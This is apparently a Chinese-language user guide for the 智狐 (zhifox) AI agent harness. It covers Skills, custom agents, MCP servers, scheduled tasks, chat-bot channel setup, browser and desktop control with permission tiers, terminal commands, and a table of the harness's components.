  - 新建：按表单写一个（名字、说明、做法），名字边打边检查。
  - 从网址添加：GitHub 上的文件夹或整个仓库的链接、一个 `SKILL.md` 的链接，或者 `.zip` / `.skill` 文件的链接。
    一个仓库里有好几个 Skill 时，由你挑装哪几个。
  - 上传：`.zip` 或 `.skill` 文件、一个 `SKILL.md`，或者整个文件夹；也可以直接拖进来。
  - 从其他工具导入：列出 Claude Code、Codex、Cursor、Gemini CLI、GitHub Copilot、共用的 `.agents/skills`
    和[别的支持的工具](#从其他工具导入)里的 Skill，勾上要复制过来的。
  装之前都会先给你看一眼，并提醒你：Skill 里的说明会被助手照着做，只装你信任的来源。
  改动从下一条消息起生效。和编辑记忆一样，改、删、装 Skill 都要等这一轮对话结束。
- 扩展 → Agent（右上角的拼图按钮）：你定制的 Agent，每一个写着颜色、名字、说明、用哪个模型、能用几样工具。
  鼠标移上去（或者用 Tab 移到它上面），右边出现"用它开始新对话"和与会话行一样的三个按钮：
  "在访达中显示"（它的 `.md` 文件）、编辑、删除（在原地确认一次）。点一行打开它：模型、工具和它的设定。
  编辑有两种写法："表单"和"原文"（整个文件）；两者之间切换时由智狐换算（把表单写成文件、把文件读回表单），规矩只写在程序里一处。
  有没保存的修改会先提醒，和编辑记忆一样。列表上面是"新建""示例"（资料研究员、代码审查员、写作助手）和"从其他工具导入"；
  一个都还没有时，这一页讲清楚两种用法，并摆出这三个示例。改 Agent 不用等这一轮对话结束：正在进行的对话和子 Agent
  用的是开始时读到的那一份（见"自定义 Agent：子 Agent 和角色"）。
- 用 Agent 开始对话："新对话"右边的小箭头点开是你的 Agent 列表（方向键、回车、Esc 都能用），选一个就用它当角色开始一段新对话。
  顶上的标题前面写着它的名字（点一下打开这个 Agent），左边会话列表里这一段带一个小标记。主助手把任务交给子 Agent 时，
  对话里出现一张"交给「某某」……"的卡片：写着它此刻在做什么（在想、在写、在调用哪个工具、等你确认），
  点开能看到它调用过的每个工具、按 Markdown 画出来的回答，以及用的模型、调用了几次、花了多少。
- 扩展 → MCP（右上角的拼图按钮）：智狐接入的 MCP 服务器，每一个写着状态（连接中、已连接、失败及原因和服务器最后说的一句、
  已停用）、有几个工具，还有一个启用开关。鼠标移上去（或者用 Tab 移到它上面），会出现"重启"和与会话行一样的三个按钮：
  "在访达中显示"（`data/mcp.json`）、编辑、删除（在原地确认一次）。点开一个服务器，能看到它是怎么连的、说的是哪一代协议、
  每一个工具和它的说明（每个工具都有一个"不用问"的开关），还有它的日志。"添加服务器"打开一张表单：本地程序
  （命令、每行一个参数、工作目录、环境变量）或者网址（加上 `Authorization` 这类请求头）。密钥填在密码框里，
  保存之后页面上只显示最后 4 位；编辑时留空表示不变。"粘贴 JSON"收从 Claude Desktop、Claude Code、Cursor、
  VS Code 的配置里复制来的内容；"从其他工具导入"列出 Claude Desktop、Claude Code、Cursor、VS Code、Codex、Gemini CLI、Goose
  和[别的支持的工具](#从其他工具导入)里配好的服务器（只在你打开这一页时读），勾选要复制过来的；换写法时改了什么写在每一项上。改动从下一段新对话开始生效（原因见"MCP：别人写好的工具"）。
- 外观和动效（右上角的太阳/月亮按钮）：点开是一个小面板，上下两排。
  - 外观：默认是浅色，可以换成深色，或者跟随系统的深浅色。
  - 动效：默认跟随系统设置（macOS 是"系统设置 → 辅助功能 → 显示 → 减弱动态效果"，Windows 是
    "设置 → 辅助功能 → 视觉效果 → 动画效果"）。也可以直接在这里选"减少"（不播放滑动、淡入和闪烁，内容直接出现），
    或者"完整"（即使系统要求减少动画，这个页面也播放全部动画）。
  点面板外面、按 Esc 或者再点一下按钮就收起来。
- 语言（右上角的地球按钮）：中文、English、Español，在按钮下面弹出一个小面板，和外观、换模型是同一种（手机上从底下升起来）。
  每一项上面大字是这门语言用它自己的文字写的名字，谁都认得出自己的那一个；下面一行小字是用现在的界面语言写的名字
  （界面是中文时，English 下面写"英语"）。现在用的那一项小字写"当前语言"，并打一个细细的勾。底下一直完整地写着一句
  "换的是界面上的文字。助手用什么语言回答，取决于你用什么语言和它说话。"↑/↓ 移动，回车选，Esc 收起。
  换语言不刷新页面，正在进行的对话、滚动的位置、写了一半的消息都原样留着，界面上的文字在原地换掉。选择会保存下来，终端版也跟着用。

外观、动效、两边的栏是展开还是收起，这几样选择记在浏览器里，不在 `data/` 里。

换模型的规则：同一家之内换模型，对话可以接着进行；换到另一家会开始新对话，因为各家的对话格式不通用
（离开的那一段已经存好，在左边的列表里打开就能接着聊）。选好的模型会保存下来，下次启动（包括终端版）还是它。
用 Agent 开始的对话，换到哪个模型角色都不变。助手正在回复的时候也能打开换模型的面板看一看，但这时选了也不会换，面板里会说一声：等这一轮结束，或者点"停止"；
聊天通道正在这段会话里跑一轮的时候，连同一家之内也不能换：新的模型要存进同一个会话文件，两边会抢着写（见 [harness/claims.py](harness/claims.py)）。
"换过去会怎样"（接着聊、直接开始新的、先问一声）由程序在 [harness/model_catalog.py](harness/model_catalog.py) 里算，
和真正换模型的 `App.select_model` 是同一条规矩；页面只照着画，不自己判断，规矩就只写在一处。

刷新页面不会丢失当前对话。关闭页面后程序仍在运行，回到终端按 Ctrl-C 才会退出；
如果这时助手正在回复，程序会先停下它、把这一轮存好（最多等 5 秒）再退出。
同一个数据目录同时只能开一个网页版：已经有一个在运行时，再启动会提示你去用已经打开的那个。
重新启动后看到的是一段新对话，之前的会话都在左侧的列表里。打开一段旧会话时，
会自动换回它当时用的那家模型，而且这个模型从此就是"选好的模型"：之后新开的对话、下次启动用的都是它，
直到你再换一个。助手正在回复的时候，不能打开、改名或删除会话，要等这一轮结束或者点"停止"。
会话的标题最长保留 40 个字。

可选参数：`--port 9000` 指定端口（不指定时用 8765，它被占用就自动换一个；指定的端口被占用则直接报错），`--no-browser` 不自动打开浏览器。

终端里显示的地址带有一段 `token`，它是这次运行的口令，每次启动都会换。不要把这个地址发给别人，
也不要把带地址栏的截图发到公开的地方：拿到它的人可以通过这个页面让助手在你的电脑上执行命令。
服务器只接受本机的连接。

**加个书签，或者放进程序坞。** 页面带着自己的图标和网页应用清单（manifest），标签页、书签和快捷方式上都是那只小狐狸。
在 Chrome 里点 **⋮ → 投放、保存和分享 → 创建快捷方式**，勾上 **在窗口中打开**（或者选同一个菜单里的"安装"）：
智狐就会在自己的窗口里打开，像别的应用一样待在程序坞（macOS）或任务栏里。macOS Sonoma 以后，程序坞里是一块奶油色圆角方块上的小狐狸。
书签和快捷方式记住的是整个地址，口令和端口都在里面，所以请从后台服务打开的页面去做（见下面的"在后台一直运行"）：
它的口令重启前后不变。在终端里开的 `harness --web` 每次启动都换一个口令，旧的快捷方式会打开"链接无效或已经过期"，
那就重新做一个，或者换成后台服务。

### 智狐能做的事：功能清单

信息栏里列的不是模型手里那些工具的内部名字（`todo_add`、`str_replace_based_edit_tool`、`mcp__files__echo`……），
而是**功能**：待办、定时任务、记忆、读写文件、执行命令、联网搜索和读网页、Skill、交给子 Agent、浏览器、操作整台电脑、
每个 MCP 服务器一行，还有把文件发回聊天。每一行写着：

- **这段对话能不能用**：在用；下一段对话（对话开始以后才在设置里打开的：一段对话的工具在它开始时定下，所以从下一段起生效）；
  关着（写着为什么，旁边一个按钮直接去对的地方：设置里"浏览器""操作整台电脑"那一节、扩展里 Skill / MCP / Agent 那一页，
  或者"开始新对话"）；这里用不了（只有 Claude 能联网搜索；看不了图片的模型，比如 DeepSeek，用不了操作整台电脑；
  这台电脑上没有桌面可以操作；这段对话的角色没有放开它；发文件只在聊天通道里有；换个模型就能用的，旁边一个"换模型"按钮打开换模型的面板）。用不了的收在最下面。
- **在现在的确认方式下问不问你**：一个小标签（直接做、部分先问、先问你、每步都问），点开以后是一句话，比如
  "读工作目录里的文件直接做；改文件前会问你"，再加上每一类操作各自怎样。在清单顶上那一条换确认方式，标签跟着变。
  比如操作整台电脑那一行有三类（点鼠标、打字、按键；截图；危险的组合键）：选"每次确认"时标签是"先问你"；
  选了"全部自动允许"、或者这段对话里选过"不再问"时是"部分先问"，因为危险的组合键照样问。
- **在哪儿执行**：这台电脑上、Anthropic 的服务器上（联网搜索）、第三方的 MCP 服务器上。
- **技术细节**（收着）：模型真正收到的工具名（Claude 的工具包算一个，比如 `browser_toolset_20260801`）。

状态从不只靠颜色：每个标签都有图标和字，图标块的样子也不一样（实心、虚线框、淡下去）。终端里的 `/tools` 打印的是同一份清单。

为什么这样做（[harness/capabilities.py](harness/capabilities.py)）：这是唯一把工具对应到功能的地方，页面只照着它给的画。
"问不问你"也不是把规矩再抄一份：清单拿几个有代表性的操作（"改工作目录里的一个文件""`ls`""往密码框里输入"）
一个个去问 [permissions.py](harness/permissions.py)，和循环执行工具之前问的是同一个地方，规矩改了，清单自己跟着变。
认不出来的工具也照样列一行（用它自己的名字），不会因为不认识就藏起来。

### 定时任务和重复任务

对助手说"每天早上 9 点提醒我喝水"或者"每个工作日 9 点看看我的待办，写一份今天的安排"，或者在网页界面里自己添加。
任务有两种：

| 种类 | 到时间之后 | 费用 |
|---|---|---|
| 提醒（reminder） | 页面上弹出一条提醒，写着任务的名称和内容。不调用模型 | 不花钱 |
| 让助手去做（agent） | 助手自己执行任务的指令，就像你把它当成一条消息发过来一样：调用模型，使用工具 | 每次运行都要花 API 费用，和平常的一轮对话一样 |

时间表都按你电脑的本地时间：某个日期和时间只运行一次、每天、每周选定的几天、每月的某一天（31 号在小月里落到最后一天）、
每隔多少分钟（5 分钟到 7 天，从创建或者上一次运行的时刻算起）。夏令时按日历处理："每天 9 点"始终是墙上的 9 点；
春天拨快时被跳过的那个时刻，顺延到跳过之后运行；秋天拨回时走两遍的那个时刻，只运行一次。
保存之前，表单上会先列出接下来的三次运行时间。

让助手去做的任务是这样运行的：

- **和你的对话同时进行。** 你正在聊天时到了时间的任务马上开始；它跑的时候你照常发消息、换模型、打开会话，
  好几个任务也可以一起跑。每次运行都有自己的 shell，停下一个任务只结束它自己的命令，对话里的"停止"也碰不到任务。
  最多同时跑三个，再多的排队等着（显示"排队中"），前面的跑完一个就开始。换模型、改任务的设置，只影响以后的运行。
- **不动你正在进行的对话。** 每次运行都从空的历史开始，用的是它开始那一刻设置里选中的那家模型，跑完存成一段普通的会话，
  标题是任务名加时间（比如"每日安排 · 2026-11-21 09:00"）。它出现在会话栏里，标着来自定时任务，
  可以打开、重放、搜索，也可以接着聊。
- **要不要问你，每个任务自己定。** 编辑任务时，"让助手去做"的任务可以选和对话里一样的四档：**每次确认**（默认）、
  **自动允许只读命令**、**自动允许改文件**、**全部自动允许**；选最后一档时会提醒你：任务多半在没人看着的时候运行。不是"每次确认"的任务，
  列表里那一行会带一个小标签，任务详情里也写着它是哪一档。还要你批准的操作，任务会停下来等你答复：
  正在等的确认显示在任务那里，可以允许或者拒绝，这期间你照常聊天。没问你就做了的那几步，进度里和存下来的会话里都标着"自动允许"。
  对话里选的那一档管不到任务；助手替你添加的任务一律是"每次确认"，只有你自己能改。
- **能看到进度，能停下。** 任务运行时能看到它在做什么（思考、写回答、调用哪个工具）、调用了几次模型、
  到目前为止花了多少钱、调用过哪些工具。"停止"和对话里的"停止"一样，这次运行正在运行的命令也会一起结束；
  还在排队等的那一次直接取消。好几个任务一起跑的时候，页面顶上那条提示会数一数（"定时任务：2 个在运行、1 个在等你确认"），
  点一下打开任务列表，停在第一个等你的任务上。
- **错过了就补一次。** 到时间时智狐没有开着（或者电脑在睡眠），下一次智狐看到时补跑一次，不管错过了几次都只补一次。
  这次运行标着"补跑"，记着错过了几次，也会告诉助手原定是什么时候。
- **每次运行都有记录。** 每个任务保留最近 20 次运行：开始和结束的时间、结果、调用了几次模型、估算费用、
  最后回答的开头，失败时还有原因。不设花费上限。

<p align="center">
  
</p>

**定时任务只在网页界面（`uv run harness --web`）或者服务器模式（`uv run harness serve`）开着的时候运行。**
终端界面不运行它们；在终端里也可以让助手添加或删除任务，等下次网页界面或者服务器模式开着时运行。"立即运行"会马上运行一次，不改变原来的时间表。助手替你添加或删除"让助手去做"的任务时，
会先问你，因为这个任务以后会自己花钱；提醒不用问。

### 聊天通道

打开 **扩展 → 通道**，选一个平台。一个四步的向导会带你做完：

1. **建一个机器人。** 向导里写着这个平台的步骤（见下面），带着它开发者后台的链接。
2. **粘贴 token**（或者 ID 和密钥）。智狐拿它问一次平台，显示出机器人的名字。密钥只存在 `data/channels.json` 里
   （只有你的账号能读），之后页面上只显示最后 4 位。以后再编辑时只要粘贴换了的那一项：空着的接着用存着的。
3. **配对。** 页面上出现一个 6 位数字和倒计时。用你自己的账号把它发给你的机器人。Telegram 上可以点 **在 Telegram 里打开**，
   点 Start（开始）时它会替你发过去；别的平台上这个按钮打开和机器人的聊天。配对好了，页面自己会进到下一步。
4. **确认方式。** 每次确认（默认）、自动允许只读命令、自动允许改文件，或者全部自动允许，只管这一个通道。
   在手机上照看服务器，选"自动允许只读命令"正合适：`df -h`、`systemctl status nginx` 直接跑，重启照样问你
   （见[只读的命令](#只读的命令以及为什么判断得这么保守)）。选全部自动允许时会提醒你：选了它，聊天里的一句话就能让助手执行任何命令。

每个平台怎么建机器人（向导和 `harness channels setup <平台>` 印出来的是同一份）：

- **Telegram。** 在 [@BotFather](https://t.me/BotFather) 那里发送 `/newbot`，起一个名字和一个以 `bot` 结尾的用户名，
  把它给你的 token 复制下来（`123456789:AAH…`）。
- **Discord。** 在[开发者后台](https://discord.com/developers/applications)：**New Application** → **Bot** → **Reset Token**，
  复制这串 token（它只显示这一次）。在 **Installation** 里勾上 **User Install**。粘贴 token 以后，配对那一步会给你一个链接，
  用它把机器人加到你自己的账号（**Add to My Apps**），再打开和它的私聊。不用打开 Message Content Intent：和机器人的私聊不受它限制。
- **Slack。** [新建一个应用](https://api.slack.com/apps?new_app=1)，选 **From a manifest**，粘贴向导替你复制的那份清单
  （权限、`message.im` 事件、按钮、Socket Mode 和 `/zhifox` 命令一次都设好了）。然后在 **OAuth & Permissions** 里点
  **Install to Workspace**，得到 Bot token（`xoxb-…`；照着旧清单建的应用没有 `files:write` 这个权限，要加上它、重新安装以后才能发文件）；在 **Basic Information → App-Level Tokens** 里生成一个带
  `connections:write` 权限的，得到 App-level token（`xapp-…`）。在这个应用的 **Messages** 标签里聊天；命令写成
  `/zhifox new`、`/zhifox stop`、`/zhifox status`、`/zhifox help`。
- **飞书。** 先运行 `uv sync --extra feishu`。在[飞书开放平台](https://open.feishu.cn/app)创建企业自建应用，复制 **App ID**
  和 **App Secret**，加上 **机器人** 这项能力，开通"读取用户发给机器人的单聊消息""以应用的身份发消息""获取与上传图片或文件资源"
  这几项权限。先把智狐连上（保存下面这项设置时它必须开着），再到 **事件与回调** 里，事件和回调都选"使用长连接接收事件"，
  添加事件 `im.message.receive_v1` 和回调 `card.action.trigger`，最后创建一个版本并发布。
- **钉钉。** 先运行 `uv sync --extra dingtalk`。在[钉钉开发者后台](https://open-dev.dingtalk.com)创建一个应用（没有公司也行：
  在钉钉里自己建一个团队，你就是管理员），复制 **Client ID** 和 **Client Secret**，加上 **机器人** 这项能力，消息接收模式选
  **Stream 模式**，然后发布机器人和应用的版本。钉钉免费版的组织每个月调用接口的次数有上限。
- **QQ。** 用你的 QQ 登录 [QQ 开放平台](https://q.qq.com/qqbot/)，创建一个机器人（个人账号最多 5 个）。在它的 **开发设置**
  里复制 **AppID** 和 **AppSecret**，事件选 WebSocket。你自己是管理员，不用上线、不用沙箱就能直接和它私聊。

之后直接给你的机器人发消息就行。照片和文件经过的检查和页面上的附件一样（Word、Excel、PowerPoint 变成文字；
语音和视频暂时还不支持）。反过来也行：让它截一张屏、画一张图表、把刚写好的报告发给你，你在确认卡片上（写着文件、大小、
发到哪里）点了允许，它就以照片或文件的样子出现在聊天里（QQ 除外；各平台的上限见[六个平台，三种收消息的办法](#六个平台三种收消息的办法)）。
聊天里可以用这几个命令（在 Slack 里写成 `/zhifox new` 这样）：

| 命令 | 作用 |
|---|---|
| `/new` | 开始一段新对话（之前那段还在会话栏里）。`/new <Agent 的名字>`：新的一段用这个自定义 Agent 当角色 |
| `/stop` | 停下正在进行的这一轮，连同正在运行的命令；排着的消息也不再处理 |
| `/status` | 模型、确认方式、当前的会话、现在在做什么、今天和本月花了多少 |
| `/help` | 怎么用 |

接上的通道那一行写着它的状态（在线、连接中、出错了以及原因）、绑定的账号、最后一次有人和它说话的时间，
以及每个聊天正在做什么（带一个"停止"按钮）。和每一样存在你电脑上的东西一样，它有 **在访达中显示**（`channels.json`）、
**编辑** 和 **删除**（在原地确认），另外还有一个启用开关和 **重新配对**（换一个账号配对；原来那个账号不再理会）。
某个平台要的 SDK 没装的话，它的卡片和那一行上会写着，连同要运行的命令。还没做的平台也列在那里，写着各自需要什么：
WhatsApp 和企业微信只会把消息推到一个公网能访问的网址，以后再做；个人微信没有官方的机器人接口（别的办法都是冒充你登录，
违反微信的使用条款，账号可能被封），所以不支持。

通道在智狐作为一个长期运行的程序开着的时候工作：网页界面（`harness --web`），或者服务器模式
（`harness serve`，见下面的[部署到服务器](#部署到服务器)）。终端界面不运行它们。

### 浏览器

浏览器默认是关着的。打开 **设置 → 浏览器**，把"让助手使用浏览器"的开关打开。这一栏里还有：

- **不显示浏览器窗口。** 默认关着，你可以看着助手在它自己的 Chrome 窗口里操作。用 `harness serve` 运行时，
  以及 Linux 上没有图形界面时，一律不显示窗口。
- **Chrome。** 智狐找到的浏览器（先找 Google Chrome，然后是 Chromium、Edge、Brave）。想用别的，填上它的完整路径，点"保存路径"；
  也可以在 `.env` 里设 `HARNESS_CHROME`。填的路径不对会直接告诉你，不会悄悄换成别的。一个 Chrome 都找不到时，这一栏会说。
- **配置文件夹**（`data/browser/profile`），鼠标移上去有"在访达中显示"和"清除"。清除以后，这个浏览器登录过的网站都要重新登录，
  缓存和历史记录也没了；清除之前在原地确认一次（浏览器正在做事的时候不能清除）。
- 一句说明它要花多少钱（见下面的"费用"）。

开关从下一段新对话开始生效（还没开始聊的这一段会马上换上）。然后对助手说，比如"打开 Python 的文档，看看 3.13 有什么新东西"。
它工作的时候：

- 顶栏上出现"浏览器正在被智狐控制"（两步之间是"智狐的浏览器开着"），旁边一个"停止"按钮：停下所有正在进行的浏览器动作，并关掉浏览器。
- 浏览器的每一步，工具卡片上都有一张小截图，点开看大图。大图在 `data/browser/shots/` 里保留 30 天，之后对话里还看得到小图。
- 确认卡片上写着它要去哪个网站、要往哪个输入框里输入什么（密码只显示成圆点），或者要点的那个按钮可能会提交什么（见下面的"权限规则"）。

要用到账号的事，你可以在智狐的浏览器窗口里自己登录（先关掉"不显示浏览器窗口"），登录状态一直留在配置文件夹里，直到你清除它。
登录之前想一想：从那以后，被网页带偏的模型就能以你的身份在那个网站上做事（照样受上面那些确认规则的约束）。
自定义 Agent 用 `tools: Browser` 拿到浏览器。终端界面跟着同一个设置走，确认在终端里问；终端里画不了截图，只说一声截图存下来了。

### 操作整台电脑

操作整台电脑是进阶选项，默认关着；打开之前请先读一遍下面的[操作整台电脑：看你的屏幕、动你的鼠标键盘](#操作整台电脑看你的屏幕动你的鼠标键盘进阶)。
最稳妥的做法是在一台虚拟机里、或者你电脑上一个单独的用户账号里运行智狐，那里面不要登录你重要的账号。
打开的办法：**设置 → 操作整台电脑**，把"让助手操作整台电脑"的开关打开。先会出现一段说明，讲清楚风险，勾上"我明白这些风险"才算数。
这一栏里还有：

- **检查。** macOS 上：屏幕录制和辅助功能这两样权限给了没有、要给哪个程序（你启动智狐的那个：终端、iTerm、VS Code……），
  写着在系统设置里的哪个位置，还有一个"打开系统设置"按钮，直接打开那一页（授权以后要重新启动智狐）。Linux 上：`xdotool`
  和 ImageMagick 装了没有，以及装它们的命令。用的是 Wayland、或者没有图形界面时，写着为什么用不了。
- **允许定时任务和聊天通道使用**（默认关着）。打开了以后，任务和聊天按它们自己的那一档来：每一步都要你批准（在任务的卡片上、在聊天里），
  除非这个任务、这个通道选的是"全部自动允许"。"这段对话里不再问"在那里没有。
- **不许碰的程序。** 这些程序在最前面的时候，智狐不截图、也不操作，比如你的密码管理器、网银。
- 哪几家能用（Claude 用 Anthropic 的工具包，GPT、Gemini 用替身工具，DeepSeek 用不了），以及要花多少钱（见下面的"费用"）。

开关从下一段新对话开始生效。把智狐的页面和要操作的程序并排放好，然后对助手说，比如"在文本编辑里写一句你好，存到桌面上"。它工作的时候：

- 每一步都有一张确认卡片。截图的那张多一个按钮："允许，这段对话里截图不再问"；点击、拖动、滚动、打字、按键的那张多一个按钮：
  "允许，这段对话里的点击、打字不再问"，下面几行字说清楚这意味着什么。两个是分开的选择，都只管这一段对话；
  之后没问就做了的步骤，工具卡片上标着"自动允许（这段对话里不再问）"。想收回的话，**设置 → 操作整台电脑**里写着这段对话放开了什么，
  点"恢复每一步都问"就又从头问起（只会更严，所以点了马上生效）。危险的组合键（Mac 上的 ⌘Q，别的系统上的 Alt+F4、
  Ctrl+Alt+Del……）一律每次都问，两个按钮都没有。看清楚卡片再允许：上面写着点在哪儿、那里是哪个程序的窗口、字会打进哪个程序，
  危险的组合键还带着警告。
- 选了"全部自动允许"时，除了那些危险的组合键，什么都不问。
- 顶栏上出现"智狐正在控制这台电脑"，旁边一个"停止"按钮：马上停下正在做的那一步，这一轮里助手不能再动电脑。
- 每一步的工具卡片上都有一张小截图，点开看大图（大图在 `data/desktop/shots/` 里保留 7 天）。

自定义 Agent 用 `tools: Computer` 拿到它。终端界面跟着同一个设置走，确认在终端里问；终端里没有按钮，没法选"这段对话里不再问"，
所以那里只有 `/auto all` 能让它不再问（危险的组合键照样问）。

### 终端界面

```bash
uv run harness
```

启动后直接打字就可以对话：

```
你> 提醒我下周五交报告
🔧 todo_add {"title": "交报告", "due": "2026-11-27"}
   ↳ {"id": 1, "title": "交报告", "due": "2026-11-27", ...}
记下了：下周五（11 月 27 日）交报告。

你> 这个目录里有哪些 Python 文件？
🔧 run_command $ find . -name "*.py"

⚠️  助手想要执行命令：

    $ find . -name "*.py"
允许吗？y 允许；回车拒绝；也可以直接输入你的意见来拒绝 >
```

| 命令 | 作用 |
|---|---|
| `/help` | 显示命令列表 |
| `/new` | 开始一段新对话（记忆和待办不受影响） |
| `/todos` | 查看未完成的待办 |
| `/tools` | 查看智狐能做的事：哪些在用、会不会先问你、关着的怎么打开（和网页信息栏里的是同一份清单） |
| `/usage` | 查看本次运行的 token 用量和估算费用，以及今天、本月一共花了多少（设了每月预算的话也会显示） |
| `/model` | 查看各家的模型：现在用的是哪个（打 ✓）、每个能做什么、多少钱、哪一家还没有密钥（和网页上换模型的面板是同一份目录；换模型用网页界面顶上的模型按钮，快捷键 ⌘. 或 Ctrl+.） |
| `/mcp` | 查看接入的 MCP 服务器和它们的状态（添加和管理在网页界面里） |
| `/auto` | 查看或更改"要不要每次都问"：`/auto ask`、`/auto readonly`、`/auto edits`、`/auto all`（见下面的"权限规则"） |
| `/retry` | 重新生成最后一个回答：你的消息原样再发一次 |
| `/edit` | 改最后一条消息：它会填在输入行里，改完按回车；也可以直接写 `/edit 新的文字`。和 `/retry` 一样，这一轮执行过命令、改过文件的话先问你 |
| `/exit` | 退出（也可以用 `/quit`，或者按 Ctrl-D） |

模型回复到一半时按 Ctrl-C 可以打断它。

终端界面不运行定时任务和聊天通道。在这里也可以让助手添加或删除任务，它们在网页界面或者 `harness serve` 开着的时候运行。

### 在别的目录里使用

助手的"工作目录"是你启动它时所在的目录。想让它在别的目录里工作，先 `cd` 到那里，再运行：

```bash
uv run --project "/这个项目的完整路径" harness
```

密钥和数据照样用项目自己的 `.env` 和 `data/`。想在哪儿都只敲一个 `zhifox`，在 shell 的启动文件里加一个快捷方式：

```bash
# macOS 和 Linux：写进 ~/.zshrc（或者 ~/.bashrc），然后另开一个终端
alias zhifox='uv run --project "/这个项目的完整路径/zhifox-agent-harness" harness'
```

```powershell
# Windows：写进 PowerShell 的配置文件。`notepad $PROFILE` 打开它（还没有的话先运行
# `New-Item -ItemType File -Path $PROFILE -Force`），然后另开一个 PowerShell 窗口
function zhifox { uv run --project "C:\这个项目的完整路径\zhifox-agent-harness" harness @args }
```

之后在哪个文件夹里都能用 `zhifox`、`zhifox --web`、`zhifox service status`（`@args` 把后面的参数原样传过去）。

## Harness 是什么

模型只会一件事：读入一段文字，写出下一段文字。它不记得上一次对话，也执行不了任何操作。

**Harness** 就是包在模型外面、弥补这些不足的代码。**Agent = 模型 + harness**。
这个项目里 harness 的每个组成部分各占一个文件或目录：

| 组成部分 | 文件 | 它解决什么问题 |
|---|---|---|
| 循环 | [harness/agent.py](harness/agent.py) | 模型一次只能回复一段。循环反复调用它，直到任务做完 |
| 工具 | [harness/tools/](harness/tools/) | 模型不能执行操作。工具替它执行，再把结果告诉它 |
| 模型适配层 | [harness/providers/](harness/providers/) | 各家 API 的格式不一样。适配层把差别包起来，循环不用关心背后是哪一家 |
| 对话历史 | 适配层里（各家格式不同） | 模型没有记忆。每次请求都把完整的对话重新发一遍 |
| 压缩历史 | [harness/providers/compaction.py](harness/providers/compaction.py) | 历史每轮整段重发，越聊越贵，最后超出模型的上限。GPT、Gemini、DeepSeek 的对话太长时，请模型把较早的部分写成摘要（Claude 由 API 自己压缩） |
| 会话存档 | [harness/conversations.py](harness/conversations.py) | 程序关掉后内存里的对话历史就没了。把它存成文件，下次读回来就能接着聊 |
| 会话搜索 | [harness/search.py](harness/search.py) | 会话多了以后找不到。把每段会话里的文字放进内存，按标题和内容搜，允许不完全一样 |
| 附件 | [harness/attachments.py](harness/attachments.py)、[harness/documents.py](harness/documents.py) | 模型只收几种文件。每个附件发出去之前都检查一遍，Word、Excel、PowerPoint 先变成文字 |
| 多媒体库 | [harness/media.py](harness/media.py) | 每个附件的原件按内容存一份；记下它来自哪段会话的哪条消息；旧会话里的附件从对话历史里找回来 |
| 长期记忆 | [harness/tools/memory.py](harness/tools/memory.py) | 每段会话互相看不到对方的内容。记忆是所有会话共用的，助手自己决定往里写什么 |
| MCP | [harness/mcp/](harness/mcp/) | 别人写好的工具在另外的程序里。手写的 MCP 客户端启动或连上它们，列出工具，替模型调用，并让一段对话里的工具保持不变（见下面的"MCP：别人写好的工具"） |
| 浏览器 | [harness/browser/](harness/browser/)、[harness/tools/browser.py](harness/tools/browser.py)、[harness/webui/browser_api.py](harness/webui/browser_api.py) | 联网搜索找得到网页，却用不了网站：在站内搜索、一页一页点进去、填表单。智狐自己启动一个单独的 Chrome，用手写的 DevTools 协议客户端走管道操作它；网页被整理成带编号的一行一行，模型按编号动手（见下面的"浏览器：智狐自己的一个 Chrome"） |
| 操作整台电脑 | [harness/desktop/](harness/desktop/)、[harness/tools/computer.py](harness/tools/computer.py)、[harness/webui/computer_api.py](harness/webui/computer_api.py) | 有些事根本不在浏览器里：一个桌面程序、一个系统的对话框、把文件从一个窗口拖到另一个窗口。作为默认关着的进阶选项，助手看你整个屏幕的截图，替你动鼠标和键盘，每一步先问你，除非你放宽了（在确认卡片上按一段对话放宽，或者选"全部自动允许"）；截图先缩小，模型说的坐标再换算回屏幕上（见下面的"操作整台电脑：看你的屏幕、动你的鼠标键盘"） |
| 记忆一栏 | [harness/memories.py](harness/memories.py) | 你看不到助手记住了什么。网页界面把记忆文件列出来、可以打开看、改、删，浏览器送来的路径出不了记忆文件夹 |
| Skill | [harness/skills/](harness/skills/)、[harness/tools/skill.py](harness/tools/skill.py) | 模型不知道你希望某一类事怎么做。Skill 是一个写着做法（可能还带着脚本）的文件夹，事情对得上时模型才去读它 |
| 自定义 Agent | [harness/agents/](harness/agents/)、[harness/tools/agent.py](harness/tools/agent.py) | 一个助手不可能什么都擅长；一件要查很多资料的事，又会把几十页原文塞进对话。Agent 是一个写着自己的设定、工具和模型的文件：主助手把任务交给它、只拿回结论（子 Agent），或者你直接和它对话（角色） |
| 从其他工具导入 | [harness/imports/](harness/imports/) | 你在别的 AI 工具里已经配好了 MCP 服务器、写好了 Skill 和 Agent，各家放的地方、写法都不一样。一张登记表记着二十几个工具把它们放在哪儿，几个小的读法把各家的写法换成智狐的，再照常检查（见下面的"从其他工具导入"） |
| 共用的目录 | [harness/catalog.py](harness/catalog.py) | 有哪些 Skill、哪些 Agent 随时会变，系统提示词却不能变。两份列表都放在用户消息里，变了才再附一次 |
| 定时任务 | [harness/tasks.py](harness/tasks.py)、[harness/webui/scheduler.py](harness/webui/scheduler.py)、[harness/tools/tasks.py](harness/tools/tasks.py) | 模型只在你跟它说话时才动。定时任务让它到了时间自己动：时间表和保存、和你的对话同时运行并且停下来等你批准的执行部分、一句话就能定下任务的工具 |
| 系统提示词 | [harness/prompt.py](harness/prompt.py) | 模型不知道自己是谁、在什么环境里。内置的提示词可以换成你自己写的；"可以联网"那一行只写给有联网搜索的那一家 |
| 聊天通道 | [harness/channels/](harness/channels/) | 只有坐在运行它的那台电脑前才找得到助手。通道把它接到聊天软件上（Telegram、Discord、Slack、飞书、钉钉、QQ）：每个平台一个小小的客户端、只为你一个人服务的配对、每个聊天一段会话（和网页上的对话同时进行）、用按钮或者回复文字答复的确认，还有把照片和文件发回聊天里的 `send_file`（[tools/send.py](harness/tools/send.py)；见[聊天通道：在聊天软件里和智狐说话](#聊天通道在聊天软件里和智狐说话)） |
| WebSocket 和 HTTP | [harness/net/](harness/net/) | Discord、Slack、QQ 的消息顺着机器人自己连出去的一条 WebSocket 推过来。一个用 `socket` + `ssl` 写的小小的 RFC 6455 客户端（掩码、分片、ping/pong、关闭握手、大小上限、超时、HTTP 代理），和一个"发 JSON、收 JSON"的 HTTPS 帮手（出错信息和重定向里都不带 token），还有上传文件用的 `multipart/form-data` 编码（[multipart.py](harness/net/multipart.py)） |
